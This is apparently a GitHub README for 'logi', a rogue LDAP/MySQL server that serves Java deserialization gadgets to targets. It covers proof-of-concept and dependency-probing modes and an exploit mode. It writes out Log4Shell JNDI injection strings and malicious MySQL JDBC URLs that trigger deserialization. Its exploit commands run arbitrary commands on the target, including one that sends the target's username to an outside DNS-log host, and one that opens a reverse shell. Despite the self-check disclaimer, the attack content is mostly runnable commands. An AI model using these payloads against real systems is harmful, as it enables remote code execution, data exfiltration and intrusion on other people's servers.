


# ☕️LOGI
Logi is a LDAP/MySQL server focusing on pingback deserialize recon and exploit.


- [☕️LOGI](#️logi)
  - [免责声明](#免责声明)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
    - [📖LDAP](#ldap)
    - [🐬MySQL](#mysql)
  - [🔮Image](#image)
  - [💻See also](#see-also)

## 免责声明
该工具仅用于安全自查检测。

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

## ✨Get started
Download logi from [release](https://github.com/cokeBeer/logi/releases), or use `go install`
```
go install github.com/cokeBeer/logi/cmd/logi@latest
```
Use `-h` to show help.
```
$ ./logi -h
Logi is a LDAP/MySQL server focusing on pingback deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
BASIC CONFIG:
   -m, -mode int  1 for poc , 2 for probe, 3 for exploit
   -t, -type int  1 for ldap, 2 for mysql
SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")
...
```

## ⚙️How it work
Logi hosts a LDAP/MySQL service, waiting for LDAP lookup/MySQL connect
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
### 📖LDAP
**Poc mode**

Run poc mode with dns domain `dnslog.me`:
```
./logi -t 1 -m 1 -d dnslog.me
```
You need to send a ldap lookup to logi.
For example, a log4shell poc like below can trigger a jndi lookup to your server.
```
${jndi:ldap://your-ip:your-port/somepath}
```
logi will send a response contains serialized payload. After target deserializes the payload, it will lookup a domain named `somepath.dnslog.me`. You can use this feature to confirm deserialize and mark targets.

**Probe mode with embed wordlist**

Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`:
```
./logi -t 1 -m 2 -d dnslog.me -w yso
```
You need to request many times to traverse the wordlist, which can be done by BurpSuite.
```
repeat ${jndi:ldap://your-ip:your-port/somepath} many times
```
After target deserializes logi's response, it will lookup the domain `ith-classname.somepath.dnslog.me`. You can use this feature to probe dependencies. Also, the number of classes in dict will be printed to console when logi starts, you can use this information to control the repetition.

**Probe mode with custom wordlist**

Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`:
```
./logi -t 1 -m 2 -d dnslog.me -wp ./dict.txt
```
One class name per line in dict.

**Exploit mode with embed gadget**

Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`:
```
./logi -t 1 -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.me'
```
**Exploit mode to get a reverse shell**

Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`:
```
./logi -t 1 -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
**Exploit mode with custom gadget**

Run exploit mode with custom binary payload in `./cc1`:
```
./logi -t 1 -m 3 -b ./cc1
```

### 🐬MySQL
In MySQL type, a fake MySQL server will be started. Mode poc and mode probe also work the same as LDAP type, but logi mainly focuses on exploit mode.

> it's ok just replace -t 1 with -t 2 in above commands

Run exploit mode on port `3307` with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`:

```
./logi -t 2 -m 3 -p 3307 -g cb1v18 -c 'curl ${whoami}.dnslog.me'
```
You need to send a JBDC connect to logi.
```
jdbc:mysql://your-ip:your-port/someschema?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false
```
You can also remove the param `useSSL=false`， this will cause JDBC connecting on TLS, and logi supports TLS connection too :).
```
jdbc:mysql://your-ip:your-port/someschema?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

## 🔮Image


## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)

[Urldns](https://github.com/kezibei/Urldns)